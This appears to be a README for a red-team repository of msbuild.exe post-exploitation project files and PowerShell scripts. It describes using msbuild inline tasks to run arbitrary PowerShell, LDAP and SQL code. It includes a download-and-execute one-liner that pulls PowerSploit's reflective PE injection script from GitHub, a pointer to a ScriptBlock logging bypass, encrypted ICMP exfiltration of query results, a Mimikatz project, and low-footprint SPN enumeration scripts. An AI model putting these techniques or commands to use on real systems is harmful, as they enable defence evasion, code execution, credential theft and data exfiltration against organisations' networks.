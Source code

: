 


## MSBUILD.EXE POST EXPLOITATION SCRIPTS ##

Msbuild.exe can be used to execute arbitrary commands and .net code through various methods.  Loading and executing .csproj files that use inline tasks in one of those methods.  This repository contains a few csharp programs that use that method to execute common red team tasks such as executing arbitrary PowerShell, LDAP, and SQL Server commands/queries.

Other methods not covered include:
* Project File Parsing And Import Injection
* PropertyGroup Expansion and Injection
* Command Line injection to influence build process
* Dynamic Properties
* Items and targets
* Reference: http://subt0x11.blogspot.com/2018/11/microsoft-build-engine-compromise-part_13.html
* Reference: https://gist.github.com/caseysmithrc/047a32203ad7c2f92eb250a0bbd01cac
* Reference: https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild?view=vs-2015#BKMK_Targets

### Command Execution Options ###
Simply navigate to the folder containing the .csproj file and run the msbuild.exe command from its path as shown below.  You can explicitly define the .csproj file to load, but it is not required if only one .csproj file exists the your current working directory.  <Br><Br>
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe `
<Br>
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe file.csproj`
 <Br>
 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe file.csproj /p:AllowUnsafeBlocks=true`
<Br>  
  In some cases you may have to set the environmental variable below to execute constrained .net API calls.
  <Br><Br> 
 `set MSBUILDENABLEALLPROPERTYFUNCTIONS=1`
<Br>
`$env:MSBUILDENABLEALLPROPERTYFUNCTIONS = 1`

### CSharp Project Files and Descriptions ###

|Project File|Description |
|:--------------------------------|:-----------|
|msbuild_ldap_sqlinstances.csproj|Execute a LDAP query and obtain a list of SQL Server SPNs/Instance.|
|msbuild_ldap_userspns.csproj|This should return all SPNs for the users in the domain. | 
|msbuild_ldap_users.csproj|This should return all users in the domain.|
|msbuild_powershell_console.csproj|The .net code will provide a powershell console if all the libs are available. Make sure you have the correct System.Management.Automation.dll referenced for the target system. <br><br> Note 1: If PowerShell transcription or script block logging is enabled, the PowerShell commands you run will still show up in the logs regardless if they are run through powershell.exe or through the msbuild .net program using System.Management.Automation.dll.  However, that could potentially be disabled with this https://cobbr.io/ScriptBlock-Logging-Bypass.html. <br><br> Note 2: If outbound HTTP filter rules are not restrictive and WindowsDefender isnt running, you can launch other applicaiton with the snippet below through the powershell console.<br><br> `iex(new-object net.webclient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-ReflectivePEInjection.ps1");$PEBytes = [IO.File]::ReadAllBytes('c:\windows\system32\calc.exe');Invoke-ReflectivePEInjection -PEBytes $PEBytes`|
|msbuild_powershell_execfile.csproj|The .net code will run powershell code stored in c:\windows\temp\test.txt, however you can change the path. Make sure you have the correct System.Management.Automation.dll referenced for the target system.|
|msbuild_powershell_exec_sb.csproj|The .net code will run powershell scriptblock stored in the "readtext" variable, which you can change to meet your needs. Make sure you have the correct System.Management.Automation.dll referenced for the target system.|
|msbuild_powershell_exec_iex.csproj|The .net code will run powershell scriptblock and the sample shows how to download and execute a script from the internet using invoke-expression, which you can change to meet your needs.  The sample downloaded from the internet will write a text file to c:\temp\test123.txt. Make sure you have the correct System.Management.Automation.dll referenced for the target system.|
|msbuild_sql_query.csproj|This is a simple C# SQL Server client console that can be run through msbuild.<br>1. Connection strings are hard coded by default using the "connString" variable.  You can change the connection string on the fly with the "setconn" command.<br>2. Query results are written to c:\windows\temp\file.csv by default. You can change the output file using the "setfile" command.<br>3. ICMP exfilatation is disabled by default. By setting the "enableicmp" variable to true, and <br>setting the IP, the results of each query will be sent to the provided IP in the payloads of ICMP echo requests.<br>The payloads are encrypted by default using a hard coded salt/key.  You can use the baked in decryption function to decrypt the payload data on the receiving system. You can also disable encrypted payloads by setting the "enableEncryption" variable to "false", but cleartext data == bad idea.<br>	4. Type "help" for basic instructions.<br> Todo: <br> Fix sql data types <br> Display autosize
|msbuild_template.csproj|This is a basic .csproj template that uses inline tasks from .net code execution|
|msbuild_template_datatable.csproj |This is a basic .csproj template that uses inline tasks from .net code execution and uses datatables for storage and displaying results|
|msbuild_mimikatz.csproj|This one was written by Casey Smith.|

## POWERSHELL POST EXPLOITATION SCRIPTS ##

### Get-Spn.ps1 ###
* This should return all SPNs for the users and computers in the domain.

### Get-SQLQuery.psm1 ###
* This script can be used as an adhoc PowerShell based sql server client.  It should work in powershell v2.  Consider removing the examples before deployed though.

This script can be used to query Active directory for a list of SQL Server SPNs as the domain user logged into a domain system.  They are intended to be used during red team engagement and should have a smaller detectable footprint than PowerUpSQL.

### Get-SpnSql1.ps1 ###
* This does not use any code from PowerUpSQL and is pretty lite wieght.

### Get-SpnSql2.ps1 ###
* This uses 3 functions from PowerUpSQL, but all comments have been removed.
